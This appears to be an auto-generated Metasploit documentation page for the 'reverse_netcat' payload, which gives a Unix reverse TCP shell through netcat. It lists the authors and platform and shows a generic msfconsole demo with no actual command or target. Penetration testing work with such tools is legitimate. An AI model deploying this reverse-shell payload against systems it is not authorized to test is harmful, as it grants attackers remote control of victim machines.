 ## Unix Command Shell, Reverse TCP (via netcat)

Creates an interactive shell via netcat


## Module Name
payload/cmd/unix/reverse_netcat

## Authors
* m-1-k-3
* egypt
* juan vazquez





## Platforms
unix

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/cmd/unix/reverse_netcat
msf payload(reverse_netcat) > show targets
   ... a list of targets ...
msf payload(reverse_netcat) > set TARGET <target-id>
msf payload(reverse_netcat) > show options
   ... show and set options ...
msf payload(reverse_netcat) > run
```
    
    